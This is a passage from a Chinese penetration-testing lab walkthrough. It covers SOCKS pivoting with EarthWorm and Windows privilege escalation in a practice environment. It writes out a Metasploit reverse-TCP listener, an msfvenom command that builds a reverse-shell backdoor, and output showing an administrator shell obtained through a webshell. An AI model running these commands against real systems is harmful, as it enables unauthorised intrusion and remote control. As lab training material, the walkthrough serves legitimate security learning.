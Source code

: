 [EarthWorm](https://github.com/idlefire/ew) 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通信，用于复杂网络环境下的数据转发。

它的常用命令如下：

```java
# 在目标机器中开启SOCKS代理
ew -s ssocksd -l 888
# 在跳板机上执行如下命令实现数据透传到目标机器上，即将1080端口数据转发到目标IP的888端口上
ew -s lcx_tran -l 1080 -f {目标机器IP} -g 888
```

### 权限提升

有时我们利用 Web 漏洞拿到的系统权限是有限制的，为了获取更高的权限，我们就常常使用一些提权的利用方法来实现，下面介绍几种在 Windows 平台下比较常用的提权方法。
> 补充：为方便本地虚拟机与主机互联测试，我修改了原靶场虚拟机的 IP 地址，将192.168.52.xx 都更改为 192.168.69.xx。

#### 1.利用系统/软件漏洞提权

操作系统本身也有一些漏洞，特别是内核漏洞，常常用来帮助攻击者拿到更高的权限。还有一些拥有驱动程序的软件，比如杀毒软件，这些软件的权限都比较高，如果存在漏洞被利用，也可用于提权。

下面以靶场为例来实践练习下，先在攻击者本地开启监听端口，以等待后门回连：

```java
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.69.1 ＃攻击者IP
LHOST => 192.168.69.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444
```

然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe

利用成功后获得系统 shell 权限：

```java
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444 
[*] Sending stage (176195 bytes) to 192.168.69.143
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.143:32552) at 2021-01-24 20:55:13 +080
meterpreter > shell
Process 2364 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
C:\Users\Administrator\Desktop>whoami
whoami
god\administrator
C:\Users\Administrator\Desktop>exit
exit
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > background
[*] Backgrounding session 1...
```

